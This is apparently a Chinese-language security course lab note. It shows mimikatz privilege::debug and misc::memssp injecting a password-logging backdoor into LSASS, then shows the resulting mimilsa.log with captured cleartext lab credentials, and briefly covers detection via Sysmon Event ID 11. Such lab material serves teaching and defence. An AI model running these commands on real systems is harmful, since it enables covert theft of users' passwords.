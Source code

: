 ```yaml
---
title: NTUSTISC - AD Note - Lab(無法Reboot的時盜取Passwd)
tags: [information security, NTUSTISC, AD]

category: "Security/Course/NTUST ISC/AD/3. 更多密碼"
---
```


# NTUSTISC - AD Note - Lab(無法Reboot的時盜取Passwd)
[TOC]

Lecture Video: [2022/05/04 AD 安全1](https://youtu.be/Cv2gNQkDM8Q?si=l1na5hFGpAPk6Uux&t=4257)

## Background
如果遇到不能重開機的狀況，要怎麼前面提到的明文密碼呢?可以利用MEMSSP，它也是mimikatz設計的一個小後門，只要提升debug權限，再注入這個後門，之後等其他人登入到此主機，就可以被這個後門記錄起來

## Lab

### ==無法Reboot的時盜取Passwd==
1. Inject memssp
    記得用系統管理員權限開mimikatz
    ```bash
    mimikatz # privilege::debug
    Privilege '20' OK

    mimikatz # misc::memssp
    Injected =)
    ```
2. Relogin
重新登出再登入才會看到
3. Result
    在`C:\Windows\System32\mimilsa.log`
    ```bash
    [00000000:001f7c0f] kuma\DESKTOP-G95U93T$	maj"2g<h(&iQZ7kqFHQ4X&c;_wQq3V;*gq.(A=4&)\2eesNp8S=W)C,"nM:ns?6m.%;K4+CSGDFew>VaNQ;N_)?mB1\P9udE7Gs'Lsr ccxo*CyL=JdK"'kF
    [00000000:001f7c0f] kuma\DESKTOP-G95U93T$	maj"2g<h(&iQZ7kqFHQ4X&c;_wQq3V;*gq.(A=4&)\2eesNp8S=W)C,"nM:ns?6m.%;K4+CSGDFew>VaNQ;N_)?mB1\P9udE7Gs'Lsr ccxo*CyL=JdK"'kF
    [00000000:001f80d1] kuma\DESKTOP-G95U93T$	maj"2g<h(&iQZ7kqFHQ4X&c;_wQq3V;*gq.(A=4&)\2eesNp8S=W)C,"nM:ns?6m.%;K4+CSGDFew>VaNQ;N_)?mB1\P9udE7Gs'Lsr ccxo*CyL=JdK"'kF
    [00000000:001f80d1] kuma\DESKTOP-G95U93T$	maj"2g<h(&iQZ7kqFHQ4X&c;_wQq3V;*gq.(A=4&)\2eesNp8S=W)C,"nM:ns?6m.%;K4+CSGDFew>VaNQ;N_)?mB1\P9udE7Gs'Lsr ccxo*CyL=JdK"'kF
    [00000000:001f80e8] kuma\DESKTOP-G95U93T$	maj"2g<h(&iQZ7kqFHQ4X&c;_wQq3V;*gq.(A=4&)\2eesNp8S=W)C,"nM:ns?6m.%;K4+CSGDFew>VaNQ;N_)?mB1\P9udE7Gs'Lsr ccxo*CyL=JdK"'kF
    [00000000:001f80e8] kuma\DESKTOP-G95U93T$	maj"2g<h(&iQZ7kqFHQ4X&c;_wQq3V;*gq.(A=4&)\2eesNp8S=W)C,"nM:ns?6m.%;K4+CSGDFew>VaNQ;N_)?mB1\P9udE7Gs'Lsr ccxo*CyL=JdK"'kF
    [00000000:001fc7f9] kuma\bear	1qaz@WSX3edc
    [00000000:001fc7f9] kuma\bear	1qaz@WSX3edc
    [00000000:001fc85a] kuma\bear	1qaz@WSX3edc
    [00000000:001fc85a] kuma\bear	1qaz@WSX3edc
    [00000000:001fc7f9] kuma\bear	1qaz@WSX3edc
    [00000000:001fc7f9] kuma\bear	1qaz@WSX3edc
    ```
    可以看到這個log file用明文的方式新增了我們剛剛打入的密碼

### ==How to detect it?==
一樣是用Sysmon的Event ID: 11可以知道，但因為之前安裝不成功所以只能Skip，不過原理就是他是去偵測lsass.exe建立mimilsa.log的瞬間